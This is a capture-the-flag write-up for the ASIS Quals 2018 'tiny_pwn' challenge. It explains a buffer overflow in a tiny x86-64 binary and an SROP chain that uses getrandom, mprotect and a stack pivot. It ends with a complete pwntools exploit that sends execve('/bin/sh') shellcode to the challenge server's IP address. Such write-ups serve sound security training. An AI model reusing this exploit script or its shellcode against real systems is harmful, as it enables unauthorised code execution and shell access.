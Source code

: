 ```yaml
---
title: Asis Quals 2018 Tinypwn
updated: 2018-05-01 10:57:13
---
```


- [tiny_pwn](#orgfec5732)



<a id="orgfec5732"></a>

# tiny_pwn


The binary is fairy simple

```nasm
; CALL XREF from 0x004000dd (entry0)                                                                                                       
0x004000b0      4831c0         xor rax, rax                ; [01] -r-x section size 91 named .text                                         
0x004000b3      4831db         xor rbx, rbx                                                                                                
0x004000b6      4831c9         xor rcx, rcx                                                                                                
0x004000b9      4831d2         xor rdx, rdx                                                                                                
0x004000bc      4831ff         xor rdi, rdi                                                                                                
0x004000bf      4831f6         xor rsi, rsi                                                                                                
0x004000c2      4d31c0         xor r8, r8                                                                                                  
0x004000c5      4d31c9         xor r9, r9                                                                                                  
0x004000c8      4d31d2         xor r10, r10                                                                                                
0x004000cb      4d31db         xor r11, r11                                                                                                
0x004000ce      4d31e4         xor r12, r12                                                                                                
0x004000d1      4d31ed         xor r13, r13                                                                                                
0x004000d4      4d31f6         xor r14, r14                                                                                                
0x004000d7      4d31ff         xor r15, r15                                                                                                
0x004000da      4831ed         xor rbp, rbp                                                                                                
0x004000dd      e810000000     call 0x4000f2               ;[1]                                                                            
0x004000e2      b83c000000     mov eax, 0x3c               ; '<' ; 60                                                                      
0x004000e7      4831ff         xor rdi, rdi                                                                                                
0x004000ea      4831f6         xor rsi, rsi                                                                                                
0x004000ed      4831d2         xor rdx, rdx                                                                                                
0x004000f0      0f05           syscall                                                                                                     
; CALL XREF from 0x004000dd (entry0)                                                                                                       
0x004000f2      4881ec280100.  sub rsp, 0x128                                                                                              
0x004000f9      4889e6         mov rsi, rsp                                                                                                
0x004000fc      ba48010000     mov edx, 0x148              ; 328                                                                           
0x00400101      0f05           syscall                                                                                                     
0x00400103      4881c4280100.  add rsp, 0x128                                                                                              
0x0040010a      c3             ret                                                                                                         
```

It first xor's all the registers and then calls `0x4000f2` which creates a buffer of size `0x128` and read `0x148` bytes with read syscall then exit's .

Well there is obvious buffer overflow there , we can overwrite the return address and change the flow of the program . The first obstacle is to set the `rax` register to call appropriate syscall , since there are no gadget for that , we have to relay on the fact that the return value is stored in `rax` register . Well read syscall is a good candidate , we just need to give fixed amount of input and it will return the number of bytes returned thus we can get arbitrary values in rax . But the catch is that to call the read syscall the rax register should be `0` in the binary this is done at the starting and the call instruction is in between will push the address of the next instruction to the stack and if we want control after that we have to overflow till there which conflicts with our purpose of calling read to set rax register .

Since after the first read we can make the value of the rax register values from 0x130 to 0x148 we can effectively call any syscall in that range and it turns out , calling the `getrandom` syscall (318) with rsi and rdx set to 0 returns 0 , ie we can set rax to 0 with this . After that we basically we can call any syscall we want .

So we can do SROP here . But we need address of /bin/sh and we do not have a stack leak , and if we are going to call `sigreturn` we need to point rsp to someplace which is `rw` otherwise it will segfault . One possible option is to call `mprotect` on the text section . Next things is that we need our control back , since we do not have control over the values on this region prior to this syscall . we have no control after the stack being pivoted to the code segment .

Let's examine the code segment

```nasm
pwndbg> x/60gx 0x400000
0x400000:       0x00010102464c457f      0x0000000000000000
0x400010:       0x00000001003e0002      0x00000000004000b0
0x400020:       0x0000000000000040      0x0000000000000120
0x400030:       0x0038004000000000      0x0002000300400002
0x400040:       0x0000000500000001      0x0000000000000000
0x400050:       0x0000000000400000      0x0000000000400000
0x400060:       0x000000000000010b      0x000000000000010b
0x400070:       0x0000000000200000      0x000000066474e551
0x400080:       0x0000000000000000      0x0000000000000000
0x400090:       0x0000000000000000      0x0000000000000000
0x4000a0:       0x0000000000000000      0x0000000000000010
0x4000b0:       0x3148db3148c03148      0x48ff3148d23148c9
0x4000c0:       0xc9314dc0314df631      0x314ddb314dd2314d
0x4000d0:       0x4df6314ded314de4      0x0010e8ed3148ff31
0x4000e0:       0x480000003cb80000      0xd23148f63148ff31
0x4000f0:       0x000128ec8148050f      0x000148bae6894800
0x400100:       0x0128c48148050f00      0x7368732e00c30000
0x400110:       0x742e006261747274      0x0000000000747865
0x400120:       0x0000000000000000      0x0000000000000000
0x400130:       0x0000000000000000      0x0000000000000000
0x400140:       0x0000000000000000      0x0000000000000000
0x400150:       0x0000000000000000      0x0000000000000000
0x400160:       0x000000010000000b      0x0000000000000006
0x400170:       0x00000000004000b0      0x00000000000000b0
```

since the stack grows from higher address to lower address we can pivot the stack to `0x400170` and when ret instruction is executed the control will jump to the address `0x4000b0` which is the entry point of the binary and with the read syscall we can overwrite everything on the code segment. Now we just need to give a shellcode .

My exploit script .

```python
from pwn import *

def p64(hex):
    from struct import pack
    return pack('<' + 'Q' * len(hex), *hex)
context.arch = 'amd64'
context.bits = 64
if True:
    io = remote ("159.65.125.233", 6009)
else:
    # context.log_level = "debug"
    context.terminal = ['tmux', 'splitw', '-h']
    io = gdb.debug("./TinyPwn",'''
    b * 0x004000b0
    '''
    )


frame = SigreturnFrame(kernel='amd64')

frame.rdx=0x7
frame.rax=0xa
frame.rsi=0x1000
frame.rdi=0x400000

frame.rip = 0x004000f0
frame.rsp = 0x400170

payload = p64([
    0x0,
    0x0])
payload += str(frame)
payload = payload.ljust(0x128,"\x00")
payload += p64([
    0x004000ea,
    0x004000f2,
    0x004000b0,
])
payload = payload.ljust(0x13d,"A")
io.send(payload[:0x13e])
raw_input()
io.sendline("\x00" * 0xe)
raw_input()
shellcode = "\x48\xC7\xC7\x48\x00\x40\x00\x48\x31\xF6\x48\x31\xD2\x48\x31\xC0\xB0\x3B\x0F\x05\xB0\x3C\x0F\x05\x90"
shellcode = shellcode.rjust(0x110,"\x90")
payload = "/bin/sh\x00" + shellcode
io.send(payload)
io.interactive()
```

